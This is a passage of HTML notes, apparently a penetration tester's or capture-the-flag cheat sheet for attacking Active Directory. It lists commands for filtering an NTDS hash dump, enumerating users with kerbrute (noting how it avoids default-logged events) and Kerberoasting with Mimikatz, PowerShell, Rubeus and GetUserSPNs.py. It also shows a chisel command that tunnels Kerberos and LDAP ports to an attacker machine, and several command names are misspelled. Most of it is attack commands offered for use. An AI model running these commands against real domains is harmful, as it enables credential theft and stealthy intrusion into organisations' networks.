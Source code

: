             <li>Grep the ntds dump</li>
            <ul>
                <li>grep -v 'aes[12]\|des-cbc</li>
                <li>grep -v history0</li>
            </ul>
        </ul>
    </ul>
</ul>

<li>Brute force valid users amd pre-auth attack</li>
<ul>
    <li>kerbrute</li>
    <ul>
        <li>pre-auth attack tool.  Will validate user existence.</li>
        <li>Can lock out users but will not generate 4625 event code which is logged by default.  The event code it does generate is not logged by default.</li>
        <li>kerberute userenum --dc apt -d &lt;domain&gt; &lt;user list&gt;</li>
    </ul>
</ul>

<li>Kerberoast</li>
<ul>
    <li>Mimikatz/manual</li>
    <table>
        <tr>
            <td>Purge all current tickets</td>
            <td>kerberos::purge</td>
        </tr>
        <tr>
            <td>Enumerate SPNs</td>
            <td>GetUserSPNs.ps1</td>
        </tr>
        <tr>
            <td>Request security token for SPN</td>
            <td>
                <li>Add-Type -AssemblyName System.IdentityModel</li>
                <li>New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList &#039;&lt;SPN - Example:HTTP/CorpWebServer.corp.com&gt;'</li>
            </td>
        </tr>
        <tr>
            <td>export TGS ticket</td>
            <td>kereberos::list /export or PS > klist</td>
        </tr>
        <tr>
            <td>Turn output into hashcat hash</td>
            <td>kirbi2hashcat</td>
        </tr>
    </table>
    <li>Rubeus</li>
    <ul>
        <li>.\r.exe kerberoast /creduser:domain\&lt;user&gt; /credpassword:&lt;password&gt;</li>
    </ul>
    <li>GetUserSPNs.py</li>
    <table>
        <tr>
            <td>Forward port 88 & 389 to Kali</td>
            <td>chisel.exe client 10.10.14.4:8008 R:88:127.0.0.1:88 R:389:localhost:389</td>
        </tr>
        <tr>
            <td>Get hash for kerberoastable users</td>
            <td>GetUserSPNs.py -request -dc-ip 127.0.0.1 &lt;domain&gt;/&lt;user&gt;</td>
        </tr>
    </table>